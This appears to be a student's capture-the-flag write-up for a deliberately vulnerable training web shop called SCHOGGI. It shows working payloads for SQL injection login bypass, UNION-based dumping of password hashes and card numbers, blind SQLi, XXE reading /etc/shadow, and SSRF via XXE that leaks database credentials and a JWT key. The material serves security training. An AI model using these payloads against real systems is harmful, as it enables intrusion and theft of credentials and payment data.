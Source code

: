 # SCHOGGI: SQL Injection on Login Form

- watched Request and Response of the login page for arbitrary logins via Burp Proxy
- we assume that the login query would look something like this:

```sql
SELECT 1 FROM user WHERE username='___' AND password='___';
```

- we tried the `'OR ''=''` separately/together in the username and password field and to exploit a known vulnerability. The responses where either invalid or we got an 500 error

```sql
SELECT 1 FROM user WHERE username='' OR ''='' AND password=''OR ''='';
```

- we tried the `' OR 1=1--[SPACE]` in the username field and the login was successful. We assume because the OR clause is always TRUE and the rest of the WHERE clause is ignored because of comment, we got the first row of the query result.

```sql
SELECT 1 FROM user WHERE username='' OR 1=1--
```

```json
{ "cart": [], "role": "user", "username": "alice" }
```

- now with this knowledge we tried the LIMIT function where we tried to get a specific row. The `LIMIT 4,1` was the first time a admin was returned.

```sql
SELECT 1 FROM user WHERE username=''OR 1=1 LIMIT 4,1--[SPACE]
```

```json
{ "cart": [], "role": "admin", "username": "victor" }
```

# SCHOGGI: Union-Based SQL Injection

- watched Request and Response of the search for arbitrary names via Burp Proxy

> Request

```json
{ "search": "name" }
```

> Response

```json
[{ "description": "...", "img": "...", "name": "...", "pid": 1, "price": 1 }, ...]
```

- tried to inject SQL commands as the value of `search`
- first we tried the `' OR 1=1--[SPACE]` to see if we get an error or a valid response -> the query was executed correctly

```json
{ "search": "' OR 1=1-- " }
```

- based on that we tried to use the `UNION SELECT` to get the entries of `user` or `users`
- based on the response of normal request we know that we get **5** fields
- tried different variants

```json
{ "search": "-' UNION SELECT 1,2,3,4,5 FROM users-- " }
```

```json
[{ "description": "3", "img": "5", "name": "2", "pid": 1, "price": 4 }]
```

- after that we tried to get general DB and table infos

```json
{
  "search": "-' UNION SELECT 1,schema_name,3,4,5 FROM INFORMATION_SCHEMA.SCHEMATA-- "
}
```

```json
{
  "search": "-' UNION SELECT 1,table_name,3,4,5 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'webshop'-- "
}
```

```json
{
  "search": "-' UNION SELECT 1,column_name,3,4,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'users'-- "
}
```

- after that we knew the column names and searched for the specific ones

```json
{
  "search": "-' UNION SELECT 1,username,password_hash,credit_card,5 FROM users-- "
}
```

- and for the user `charlie`

```json
{
  "search": "-' UNION SELECT 1,username,password_hash,credit_card,5 FROM users WHERE username='charlie'-- "
}
```

```json
[
  {
    "description": "5cb7285acef8307dd824faa96b4956971730641083237f393bded9591ff10eae",
    "img": "5",
    "name": "charlie",
    "pid": 1,
    "price": "2028 4889 0003 9887"
  }
]
```

# SCHOGGI: Blind SQL Injection (SQLI)

- based on the given hints tried to start the attack with the number **2**
- we used the `LIKE` operator to check for the credit card number and used the `%` as the wildcard

```json
{
  "username": "alice' AND (SELECT 1 FROM users WHERE username='mallory' AND credit_card LIKE '2%')-- ",
  "password": ""
}
```

- we tried this for the next 3 digits

> credit_card = 2025%

# SCHOGGI: XML External Entity (XXE)

- based on the sample XML file from the webpage and the presentation slides we used this XML file for the attack

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE order [
<!ENTITY attack SYSTEM "file://localhost/etc/shadow">
]>
<order>
    <product>
        <name>&attack;</name>
        <quantity>1</quantity>
    </product>
</order>
```

- the shadow file was then visible on the webpage

# SCHOGGI: Server-Side Request Forgery (SSRF) with XXE

- used the hints and the given word list text file from the hacking lab and executed the gobuster

```sh
gobuster dir -e -u https://206666d1-46b9-4d85-a020-eb161812cce8.idocker.vuln.land -w /home/hacker/wordlist.txt
```

- the result of gobuster was that the endpoints `/admin` and `/profile` were found and exposed
- the endpoint `/debug` was also found but is not exposed resp. can only be accessed via the internal network

```sh
https://206666d1-46b9-4d85-a020-eb161812cce8.idocker.vuln.land/admin                (Status: 200) [Size: 656]
https://206666d1-46b9-4d85-a020-eb161812cce8.idocker.vuln.land/debug                (Status: 403) [Size: 48]
https://206666d1-46b9-4d85-a020-eb161812cce8.idocker.vuln.land/profile              (Status: 200) [Size: 656]
```

- based on that we setup the attack XML file and tried some variants until we got the debug file

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE order [
<!ENTITY attack SYSTEM "http://localhost:8888/debug">
]>
<order>
    <product>
        <name>&attack;</name>
        <quantity>1</quantity>
    </product>
</order>
```

```sh
[DEBUG] MYSQL_USER: db_user 2023-10-01 16:09:25
[DEBUG] MYSQL_PASSWORD: db_user 2023-10-01 16:09:25
[DEBUG] MYSQL_DATABASE: webshop 2023-10-01 16:09:25
[DEBUG] JWT Signing Key: 096fc22a64537d99303f4805dfc636babe9979cca1d9a175f21b5b9c240637b1
```
